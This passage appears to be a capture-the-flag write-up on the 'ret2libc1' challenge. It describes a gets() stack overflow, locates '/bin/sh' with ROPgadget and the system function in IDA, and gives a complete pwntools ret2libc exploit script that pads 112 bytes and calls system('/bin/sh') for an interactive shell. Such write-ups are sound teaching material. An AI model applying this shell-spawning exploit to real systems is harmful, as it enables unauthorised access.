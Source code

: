 

You can see that a stack overflow occurred while executing the gets function. Also, with ropgadget, we can see if /bin/sh exists


```shell
$ ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```



It does exist, look again to see if there is a system function. It is true that it is found in ida.


`` `asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```



So, we go back directly to it, executing the system function. The corresponding payload is as follows


```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2libc1")
p = elf.process()

#--------ret2system--------#

offset = 112
system = elf.sym["system"]
# ROPgadget --binary ret2libc1 --string "/bin/sh"
bin_sh = 0x08048720

payload = flat(
    b"A" * offset,
    system,
    b"B" * 4, # ret addr for system
    bin_sh, # arg for system
)

p.sendlineafter("RET2LIBC >_<\n", payload)
p.interactive()
```
